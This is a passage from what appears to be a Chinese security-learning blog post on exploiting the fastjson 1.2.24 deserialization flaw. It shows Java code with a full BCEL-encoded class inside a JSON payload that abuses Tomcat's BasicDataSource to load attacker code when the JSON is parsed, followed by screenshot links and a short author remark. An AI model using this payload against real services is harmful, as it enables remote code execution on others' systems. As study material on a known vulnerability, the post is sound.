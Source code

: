 ```java
String encode1 = Utility.encode(bytes1, true);
System.out.println(encode1);
String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassName\":\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$a5U$5dS$hU$Y$7e$W$C$bb$J$9b$96$d2$S$a0$60$f9$a8$b6$40$g$a2X$3fJh$x$adE$d2$f2e$83T$ac_$t$c9$B$W$b3$bb$99$ecb$e9$9d$X$ce$e8$ad$X$ce$f4$ca$f1$ce$hgl$3b$zu$ec$a8$f7$fe$P$99$f1O8$3eg$b3$84$UR$i$c7$cc$e4$9c$bc$ef9$fb$bc$cf$f3$bco$92$3f$fe$fe$e57$A$e7Q$8c$a1$H$93Q$5c$c4$r$D$97cx$LS$3a$ae$c4$d0$82I$b5$5cU$cb$dbj$b9f$60$3a$8an$bcc$me$60F$7d$cc$g$b8$ae$f6$h$G$c6c$98$c5$9c$81y$b5$_$e8X$d4$f1n$M$J$dc$d4$91$d3$b1$a4$n$e2$I$5bj$e8$98$dd$Q$9f$8btI8k$e9$9c_$b1$9c$b5$8c$86$9e$9b$9b$8eo$d9r$d9$f2$ac$7cIN9$8e$eb$L$dfr$jOCr$b6$e0$daiQ$b2$f2$o$_$d2$ab$c2$f37$3c$d7I$8b$da$9d$f4$f5$dc$c2$fc$b4$rKE$o$b5$ae$ba$V$5b$f8$g$8e$df$e5$x57$97$w$W$Hff$sl$7b$c2$pX$b3$t$b7$b8$8a52$d1$b2$bc$3ei9$96$7f$89$a9$e1$91er$bc$ea$Wyrt$d6r$e4$fc$a6$9d$97$95$rA$3e$8a$b5$5b$Q$a5eQ$b1T$i$s$p$fe$baE$ccT$40Pn$J$bb$5c$92$7b$E$8b$d2v$bd$f4$j$99OO$87$a9$a2kKRL$M$l$b4$m$ab$aaG$d7$a4$3f$r$d4K$c3$89$e1$91FF$b5z$d2$cf$v$J$9d$N$40$U$86N$8c$f9$c0$e8V$85$a6tRZ$b6$fad$QF$86$83b$ba$b7$7b$d1$98$y$94B$X4$86$9dU$60$cbMg$X$aem$VdYy$cc$d2$f1$9c$_$K$9f$cd$89r$a0$9e$N$d6$Q$cb$b9$9b$95$82$9c$b6$94$h$c7$eae$8e$v$M$T$a7$f1$a2$8e$f7L$y$e3$W$3d$dc$f9$fa$9b$9d$7b$3f$ed$7c$f7$e5__$7c$ff$e7W$bf$ee$7c$7b_$c7$fb$sV0$a6$a1k$bf$9a$x$9bV$a9$u$x$s$3e$c0m$b5$7ch$e2$p$9c$d3$d0FY$o$7c$99$Y$40$_$F$84$9a$93$sN$aaX$af$wg8$88$n$j$l$9b$f8$E$9fR8$3bX0$n$90$e7t4$d0$a8$e1$e4$k$89p$mk$87JK$81$c3$f8$lZ$ad$a1$7d$Po$n$bf$n$L$fe3$a9$dc$5d$cf$976$fb$e3n$fa$f5$b6$_R$beO$T$a4$b03uL$eb$d2$94XVQ$89$9c$5bE$b9$y$9d$o$c7$b0$d1D$iH$85$b6$S$b8$8fsp$c8$b1$e1$bb$d5$U$3b$7b$c0$W$b6$9e$k$d7$82$ceg$865L$T$p$o$b7$qM$3b$fb$_$cc$W$xnAz$k$l$e8$ae$bf$b9$b4$5eq$ef$a8Y$e3$60$b3$93$dd$fc$99$C$9a$d1$a4$9a$M$f2g$d4$c6$fd$F$beOy$e8$e7$B$a7$81$c9$s$d5v$eeQ$kp$A$b9$be$c4$e82$f3$g$f7$f8$e8$Th$P$d1$d4$d1$bc$8d$c8$83$e0$fa$Z$aeG$88$M$9cB$84$40j$ac$ce22$ab$P$60$Y$p$dc$V$d8h$I$b6$ce$db$ea$feP$I$f6$U$z$xO$d0$aa0$f5$q$df$7d$db0$b6$RmPa$90$V$86$b8$9e$O$w$MTQ$c2$K$eaSU$h$82$3bC$B$e5$q$ce$85U3$bb$S$U$fd$Y$c1G$l$a1$ed$7e$ad$40$8c$3bx$d1$60$d4$88$7e$Kc$n$d0$ed$c0F$a0$bf$8e$ba$ZR$af$d2$kM$3eF$db$7e$ee$p$ec$c0$u$3dJ$G$f0$89$wD$8d$7b$7f$60$3f$7fC$90$ae1$5e$e0s$8a$c4$60$5d$a18$8b$90$f8$91$bdZ$M$f6$abH$b1$bdcu$w$Gk$w$5e$c6$x$87$80$l$ad$82$b7$d7$fcW$c1$8f$fb$c0$c7$J$fejC$f0q$e6$9fo$d11$82$f7$ee$n$f7$3eF$fb$7e$8b$de$a0Eo$d2$a2$L$cf$b1H5UYt$fe$ff$W$ca$a8$3fm$W$baxh$n$D$af$d5$be$A$ab$a1$5d$5d$3f$a3$a3$e3$f86N$dc$fa$B$f1$hO$91X$e1$Qw$fd$fe$m8$8c$d2$92N$5e$3c$T$80$b6p$eda$ae$P$ea$975$ce$f6$s$f8u$db5$$$ce$93$d7$a9$YT$M$e8h$9a$d5qA$7d$e9$s$C$ae$99$7f$A$Lp$UIb$I$A$A\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
JSON.parseObject(s);
```
![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.24/28.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.24/29.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.24/30.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.24/31.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.24/32.png)

![](https://xinyisleep.github.io/img/2025/fastjson/fastjson1.2.24/33.png)

```
上面就是fastjson1.2.24的常见的两种打法，当然好用的还是jndi的打法，
还有一种打法只存在理论和学习，就是之前我们学习cb链的时候会调用了Getter(getOutputProperties),
后面我也会加上还有其他的打法也会加上，五一了大家节日快乐我也休息几天，后面继续向前学习大家一起进步。
```

